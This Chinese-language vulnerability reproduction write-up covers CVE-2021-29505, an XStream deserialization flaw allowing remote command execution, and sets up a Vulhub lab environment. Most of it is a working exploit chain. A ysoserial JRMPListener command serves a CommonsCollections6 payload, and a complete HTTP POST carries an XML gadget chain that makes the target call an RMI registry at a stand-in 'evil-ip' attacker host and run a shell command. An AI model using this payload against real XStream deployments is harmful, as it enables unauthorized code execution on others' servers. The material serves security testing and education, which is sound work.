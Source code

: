 # XStream 反序列化命令执行漏洞 CVE-2021-29505

## 漏洞描述

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-29505.html
- https://paper.seebug.org/1543/

## 环境搭建

Vulhub执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![image-20220302231858031](./images/202203022318110.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：

![image-20220302232424814](./images/202203022324983.png)

进入目标容器内，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220302232344183](./images/202203022323249.png)

值得注意的是，我们没有直接使用[官网](https://x-stream.github.io/CVE-2021-29505.html)给出的POC，那个POC是错的。

